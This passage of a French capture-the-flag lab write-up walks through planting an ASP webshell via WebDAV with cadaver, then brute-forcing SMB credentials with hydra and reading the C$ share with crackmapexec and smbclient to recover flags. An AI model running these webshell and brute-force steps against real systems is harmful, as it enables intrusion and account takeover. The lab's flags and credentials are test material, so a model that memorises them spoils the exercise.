 2. **Upload du webshell**
   ```bash
   cadaver http://target1.ine.local/webdav
   # Credentials: bob:password_123321
   put /usr/share/webshells/asp/webshell.asp
   ```

3. **Exécution de commandes**
   - Accès: `http://target1.ine.local/webdav/webshell.asp`
   - Commande: `dir C:\`

4. **Récupération du flag**
   - Commande: `type C:\flag2.txt`
   - **Flag 2:** `f4369f68b4c049dd8ffe0d2f545ddb2f`

---

## 🎯 FLAG 3: Brute-force SMB

### **Question:** *"By attempting to guess SMB user credentials, you may uncover important information that could lead you to the next flag."*

#### **Démarche:**
1. **Reconnaissance SMB**
   ```bash
   nmap -sC -sV target2.ine.local
   ```
   - Port 445 SMB ouvert

2. **Énumération (échec)**
   ```bash
   enum4linux -a target2.ine.local
   ```
   - Accès refusé

3. **Brute-force SMB**
   ```bash
   hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt \
         -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt \
         smb://target2.ine.local
   ```
   - Credentials découverts: `administrator:pineapple`

4. **Énumération des shares**
   ```bash
   crackmapexec smb target2.ine.local -u administrator -p pineapple --shares
   ```
   - Shares avec permissions R/W: `ADMIN$` et `C$`

5. **Accès au share C$**
   ```bash
   smbclient //target2.ine.local/C$ -U administrator
   # Password: pineapple
   dir
   get flag3.txt
   ```
   - **Flag 3:** `79b87a8ef8724d9997c774aadaf360a4`

---